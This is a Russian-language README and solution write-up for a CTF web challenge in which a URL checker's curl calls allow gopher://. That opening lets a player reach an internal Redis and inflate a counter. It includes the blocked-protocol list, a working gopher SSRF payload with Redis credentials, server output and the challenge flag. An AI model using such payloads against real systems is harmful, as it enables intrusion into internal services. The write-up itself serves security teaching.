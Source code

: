 # c0ll3ct0r | easy | web

## Информация

"Collect urls, earn flags!" - гласила вывезка на одном из новых модных складов

https://collector.web.ozon-ctf-2025.ru

## Деплой

```sh
cd deploy
docker-compose -f docker-compose-prod.yml up --build -d
```

## Выдать участинкам

Архив из директории [public/](public/) и текст из раздела "Информация".

## Описание

Сборщик url'ов, на каждый url шлётся запрос для проверки валидности через curl, юзеру нужно собрать 1 млрд. уникальных 
урлов, тогда получит флаг (скриптом невозможно из-за ограничений сервиса). Счетчик скормленных урлов хранится в redis, 
у curl не запрещён gopher://, можем сформировать запрос к redis, который увеличит счетчик до 1 млрд. для юзера с помощью INCRBY

## Решение

Заходим на сайт, регистрируемся, видим что для полчуения 'Flag #1' нужно отправить 1 млрд. уникальных URL'ов (уникальность на уровне домена).  
Понимаем что сделать это руками/скриптом невозможно (даже если попытаемся упрёмся в лимит).

Смотрим код сервиса. Видим что запросы шлются через curl, после проверяется статус код и уникальность в БД, если всё ок, 
то увеличивается счетчик сданных url'ов с redis.

В коде захардкожены креды от redis:
```go
postgresHost, redisHost := "localhost", "localhost"
	if os.Getenv("ENVIRONMENT") == "production" {
		postgresHost = "postgres"
		redisHost = "redis"
	}
```
Значит есть смысл поискать возможность дернуть Redis.

У curl запрещены протоколы с помощью блэк листа:
```go
var BLOCKED_PROTOCOLS = []string{"DICT", "FILE", "FTP", "FTPS", "IMAP", "IMAPS", "LDAP", "LDAPS", "MQTT", "POP3",
	"POP3S", "RTMP", "RTMPS", "RTSP", "SCP", "SFTP", "SMB", "SMBS", "SMTP", "SMTPS", "TELNET", "TFTP", "WS", "WSS"}
```
А это значит, что возможно что-то забыли закрыть, гуглим, узнаем что забыли закрыть протокол `gopher://`, с помощью
которого как раз таки можно дергать Redis.

А еще замечаем интересную вещь, при невалидном статус коде, нам в респонсе ещё вернётся body ответа на запрос:
```go
if !slices.Contains(ALLOWED_STATUS_CODES, statusCode) {
return c.String(http.StatusBadRequest, "Invalid status code: "+strconv.Itoa(statusCode)+"\nresp: "+responseBody)
}
```

Составляем запрос к Redis (как это делается можно посмотреть [тут](https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup)):
```json
{
  "url": "gopher://redis:6379/_%0D%0Aauth%20redis%20redis%0D%0Ainfo%0D%0Aquit%0D%0A"
}
```
В ответ получаем:
```
Invalid status code: 0
resp: +OK
$5581
# Server
redis_version:7.4.2
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9d14eaf5f599583e
redis_mode:standalone
os:Linux 6.1.0-30-amd64 x86_64
arch_bits:64
monotonic_clock:POSIX clock_gettime
multiplexing_api:epoll
atomicvar_api:c11-builtin
...
```
А значит всё получилось, осталось составить запрос с INCRBY нужного ключа (счетчика url'ов для нашего аккаунта и получить флаг).  
[Пример эксплойта.]([solve.py](solve/solve.py))

## Флаг

`ozonctf{c0ll3ct0r_url_net_c0ll3ct0r_dom41n_h86d}`

